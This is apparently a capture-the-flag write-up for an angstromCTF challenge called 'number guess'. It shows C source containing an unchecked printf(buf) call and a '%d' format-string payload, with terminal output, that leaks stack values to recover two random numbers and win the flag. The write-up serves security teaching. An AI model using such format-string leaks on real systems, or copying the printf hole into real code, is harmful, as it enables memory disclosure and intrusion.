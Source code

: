 # number guess

### Descripttion
Ian loves playing number guessing games, so he went ahead and wrote one himself (source).
I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

hint: Look up some vulnerabilities associated with the printf function.

### Solving

We have the executable and the source code, classic. And again the first thing I do - run the binary.

<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
awawa
I&apos;m thinking of two random numbers (0 to 1000000), can you tell me their sum?
awawa&apos;s guess: 12323123
Sorry, the answer was 1375508. Try again :(
</pre>

The program generates two random numbers and asks me to guess their sum. Fine, let's see the source code now.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>


char *flag = "REDACTED";
char buf[50];

int main(int argc, char **argv) {

	
	puts("Welcome to the number guessing game!");
	puts("Before we begin, please enter your name (40 chars max): ");
	fflush(stdout);
	fgets(buf, 40, stdin);
	buf[strlen(buf)-1] = '\0';
		
	strcat(buf, "'s guess: ");	
	puts("I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?");
	
	srand(time(NULL));
	int rand1 = rand() % 1000000;
	int rand2 = rand() % 1000000;

	printf(buf);
	fflush(stdout);
	int guess;
	char num[8];
	fgets(num,8,stdin);
	sscanf(num,"%d",&guess);

	if (guess == rand1+rand2){
		printf("Congrats, here's a flag: %s\n", flag);
	} else {
		printf("Sorry, the answer was %d. Try again :(\n", rand1+rand2); 
	}
	fflush(stdout);
	return 0;
}
```

This code has ```printf``` vulnerability here:
```C
...
fgets(buf, 40, stdin);
...
printf(buf);
...
```
First, the program writes the string we enter to the stack, and after that it prints this string to stdout. The key is that ```printf``` function handles string format parameters. You can see this in the source code here:
```C
printf("Sorry, the answer was %d. Try again:(\n", rand1+rand2);
```
The string contains ```%d``` parameter which means that the ```printf``` must take second argument, which is ```rand1+rand2```, as a digit and insert it's value to the output. And that's why we dont's see %d in the output, but we see the number. But what if the string contains string format parameters but it's the only argument passed to ```printf```? There won't be an error, the function will just take values from the stack and here is the way for us to find those rand1 and rand2 numbers, because they are located in the stack of "main" function.

So, here what I'm gonna do. I will type this string:
```
%d %d %d %d %d %d %d %d %d %d %d %d %d %d
```
to the input. The program will print stack content to the stdout and I will lose the game to see what the sum was. Knowing the sum, I will find two numbers which will be equals to this value when summed:
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%d %d %d %d %d %d %d %d %d %d %d %d %d %d
I&apos;m thinking of two random numbers (0 to 1000000), can you tell me their sum?
-598746476 115 800219 -2090630696 -2090630592 -598746152 0 4196944 406424 -598746160 1362203648 4196944 -2094376313&apos;s guess: Sorry, the answer was 1206643. Try again :(
</pre>

Now I know the sum was ```1206643```. Next, I look for two numbers with equals sum. Here: ```800219``` and ```406424``` will be equals ```1206643``` when summed. So it's third and ninth numbers in the stack.

Now, to get the flag I will just get nine numbers from the stack and calculate the sum of third and ninth numbers:

<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%d %d %d %d %d %d %d %d %d
I&apos;m thinking of two random numbers (0 to 1000000), can you tell me their sum?
-20332 234 307952 -11714088 -11713984 -20008 0 4196944 189624&apos;s guess: 497576
Congrats, here&apos;s a flag: REDACTED
</pre>